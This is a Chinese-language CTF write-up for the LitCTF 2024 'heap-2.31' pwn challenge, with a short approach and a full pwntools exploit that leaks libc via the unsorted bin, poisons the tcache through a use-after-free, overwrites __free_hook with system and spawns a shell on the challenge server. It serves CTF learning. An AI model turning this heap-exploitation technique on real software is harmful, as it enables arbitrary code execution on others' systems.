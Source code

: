```yaml
---
title: '[LitCTF 2024]heap-2.31'
date: 2024-11-13 13:50 +0800
categories: [ctf,pwn]
tags: [unsortbin_leaklibc,tacahe,libc2.31,free_hook]
---
```

> Problem: [[LitCTF 2024]heap-2.31](https://www.nssctf.cn/problem/5616)

## 思路

填满`tacahe`，利用`unsortbin`泄漏出`free_hook`,利用`uaf`修改`tacahe`的`fd`实现任意内存地址读写，劫持`free_hook`

## EXP

```python3

from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
elf = ELF('./heap')
lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#io = gdb.debug('./heap')
io = remote('node4.anna.nssctf.cn',28242)
def create(idx,size):
    io.sendlineafter(b'>>',str(1))
    io.sendlineafter(b'idx?',str(idx))
    io.sendlineafter(b'size?',str(size))

def delete(idx):
    io.sendlineafter(b'>>',str(2))
    io.sendlineafter(b'idx?',str(idx))

def show(idx):
    io.sendlineafter(b'>>',str(3))
    io.sendlineafter(b'idx?',str(idx))

def edit(idx,content):
    io.sendlineafter(b'>>',str(4))
    io.sendlineafter(b'idx?',str(idx))
    io.sendlineafter(b'content : \n',content)

for i in range(9):
    create(i,0x88)
for i in range(8):
    delete(i)

show(7)
free_hook = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))+0x2268
log.info(hex(free_hook))
lib_base = free_hook-lib.sym['__free_hook']
sys_addr = lib_base+lib.sym['system']

edit(5,p64(free_hook))
[create(i,0x88)for i in range(10,13)]
edit(12,p64(sys_addr))

edit(8,b'/bin/sh\x00')
delete(8)
io.interactive()
```

## 总结
	要注意`tacahe`利用`uaf`修改为`free_hook`地址时，不能使用最末尾（第七个）的块，那样会导致无法申请，出现脱链的状况。
